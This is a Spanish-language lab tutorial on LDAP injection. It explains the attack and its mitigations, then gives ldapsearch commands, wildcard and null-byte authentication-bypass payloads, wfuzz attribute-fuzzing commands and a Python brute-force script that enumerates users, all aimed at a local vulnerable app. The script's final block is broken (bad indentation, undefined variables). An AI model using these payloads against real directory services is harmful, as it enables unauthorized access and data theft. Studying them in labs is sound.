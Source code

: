 # Inyecciones LDAP

Tags: #LDAP #OWASP #Explotacion

* [LDAP](https://www.profesionalreview.com/2019/01/05/ldap/)

Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

-   Acceder a información de usuarios o recursos que no debería tener acceso.
-   Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
-   Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.

Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.

A continuación, se proporciona el enlace directo al proyecto de Github que nos descargamos para desplegar un laboratorio práctico donde poder ejecutar esta vulnerabilidad:

-   **LDAP-Injection-Vuln-App**: [https://github.com/motikan2010/LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)


## Comandos

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'   # Podemos ver informacion del usuario admin 

	# b,dc,dc = Base de busqueda, que el dominio seria example.org
	# D = Nombre distinguido
	# 1er_cn = Usuario a autenticar
	# w = Password 
	# x = Autenticacion simple (Usuario, Passwd)
	# 2do_cn = Criterio de busqueda y si existe que nos reporte la informacion  
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=omar'    # Para enumerar un usuario especifico como 'omar'
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=omar)(description=LDAP*))'

	# (&(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'y' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
	# (|(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'o' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
```

```bash
❯ ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldif  # Creara un usuario en base a un archivo que le pasemos
```

```python
❯ nano newuser.ldif
	dn: uid=omar,cd=example,dc=org
	uid: omar
	cn: omar
	sn: 3
	objectClass: top
	objectClass: posixAccount
	objectClass: inetOrgPerson
	loginShell: /bin/bash
	homeDirectory: /home/omar
	uidNumber: 14583102
	gidNumber: 14564100
	userPassword: omar123                      # Automaticamente pasara la passwd a base64
	mail: omar@omarcorp.com
	description: Es una prueba 
	telephoneNumber: 6467548712
```

## Inyecciones
```bash
❯ id=a* &password=*                                  # Nos ayuda a decir que existe cualquier tipo de data y por ende nos ayuda a enumerar usuarios validos

	# a* = Decimos que el usuario empieza con 'a' y despues contiene data, podria ser 'admin'
```

```bash
❯ id=admin))%00 &password=test                        # Es como si hicieramos esto = (&(cn=admin))%00)(userPassword=*))

	# %00 = Es un Null byte, que con )) nos ayuda a comentar el resto de la query y no lea la parte de la passwd
```

```bash
❯ /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt            # Diccionario con atributos para LDAP
```

Enviaremos data por **POST** para hacer el Fuzzing de los atributos
```bash
❯ wfuzz -c --hh=439 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
	# hh = Ocultar los caracteres que tengan como resultado 439
```

```bash
❯ wfuzz -c -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# user_id = * es para enumerar todos los usuarios, ya que esta haciendo match con data
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Para hacer Fuzzing a un atributo especifico, en este caso para el telephoneNumber
```bash
❯ wfuzz -c --hh=439 -z range,0-9 -d 'user_id=omar)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# Nos descubriria siempre un numero, y lo debemos de agregar antes de la palabra FUZZ, asi hasta encontrar el numero final
	# FUZZ = Ahi se sustituira el diccionario
	# z = Diccionario de tipo range 
	# user_id = Buscar por un usuario especifico
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Script para enumerar usuario validos, pero estos tienen atributos como:
* mail
* telephoneNumber
```python
❯ nano ldapi.py
	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:8888/"

	def getInitialUsers():
		characters = string.ascii_lowercase
		initial_users = []
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		for character in characters:
			post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
			r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
			if r.status_code == 301:
				initial_users.append(character)
		return initial_users

	def getUsers(initial_users):
		characters = string.ascii_lowercase + string.digits
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		valid_users = []
		for first_character in initial_users: 
			user = ""
			for position in range(0, 15):     
				for character in characters:
					post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
					r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
					if r.status_code == 301:
						user += character 
						break
			valid_users.append(first_character + user)
		print("\n")
		for user in valid_users:
			log.info("Usuario valido encontrado: %s" % user)
		print("\n")
		return valid_users

	def getDescription(user):                   # Para un usuario especifico
		characters = string.ascii_lowercase + ' '
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}	
		description = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Descripcion")
		for position in range(0, 50):
			for character in characters:
				post_data = "user_id={})(description={}{}*))%00*&password=*&login=1&submit=Submit".format(user, description, character)
				r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
				if r.status_code == 301:
					description += character 
					p2.status(description)
					break
		p1.success("Proceso de Fuerza Bruta concluido")
		p2.success("La descripcion del usuario es: %s" % description)

	if __name__ == '__main__':
	getInitialUsers()
	getUsers(initial_users)
	for i in range(0, 5):
		getDescription(valid_users[i])
```